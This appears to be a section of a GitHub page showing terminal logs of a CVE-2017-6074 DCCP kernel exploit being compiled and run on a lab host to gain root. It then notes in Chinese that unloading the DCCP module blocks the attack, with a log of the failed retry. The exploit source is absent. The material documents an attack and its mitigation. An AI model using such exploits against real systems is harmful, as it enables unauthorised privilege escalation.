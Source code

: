 ```
uid=1000(fjl) gid=1000(fjl) groups=1000(fjl),4(adm),27(sudo)
fjl@ctf:~$ whoami
fjl
fjl@ctf:~$ gcc -o cve_2017_6074_exp cve_2017_6074_exp.c 
fjl@ctf:~$ 
fjl@ctf:~$ ./cve_2017_6074_exp
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x555fad37d132
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
bash: /root/.bashrc: Permission denied
root@ctf:/home/fjl# id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
root@ctf:/home/fjl# whoami
root
root@ctf:/home/fjl#
```
![DCCP-CVE-2017-6074-EXP](images/DCCP-CVE-2017-6074-EXP.gif)

对于上面这个安全漏洞，如果我们将DCCP模块卸载并禁用掉，则可规避该安全风险。
<br>
如下卸载DCCP模块后，漏洞不可利用:
```
root@ctf:~# lsmod|grep dccp
root@ctf:~# 
root@ctf:~# su - fjl
fjl@ctf:~$ ./cve_2017_6074_exp
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
socket(SOCK_DCCP): Socket type not supported
fjl@ctf:~$ 
```